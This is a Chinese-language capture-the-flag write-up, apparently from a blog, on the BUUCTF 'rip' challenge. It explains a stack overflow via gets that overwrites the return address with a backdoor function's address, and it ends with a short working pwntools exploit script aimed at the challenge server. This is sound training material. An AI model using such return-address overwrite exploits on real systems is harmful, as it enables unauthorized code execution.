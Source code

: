```yaml
---
author: 
  name: Zephyr
title: rip
date: 2022-3-19 17:12:01
permalink: /pages/1e844742e534d18b
tags: 
  - buuctf

---
```


# rip

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1
[*] '/root/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

![rip2131](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/rip2131.png)

可以明显看到存在溢出函数gets，另外本题存在后门函数fun

![sadad2312](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/sadad2312.png)

## 思路分析

本题没有开启PIE,可以通过采用栈溢出将原来函数的返回地址覆盖位后门函数的地址，完成程序劫持

## 确定偏移量

使用cyclic，简单测试一下即可得知本题偏移量为23

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/rip/pwn1'
io = remote('node4.buuoj.cn', 26919)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 23
backdoor = 0x40118A
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```
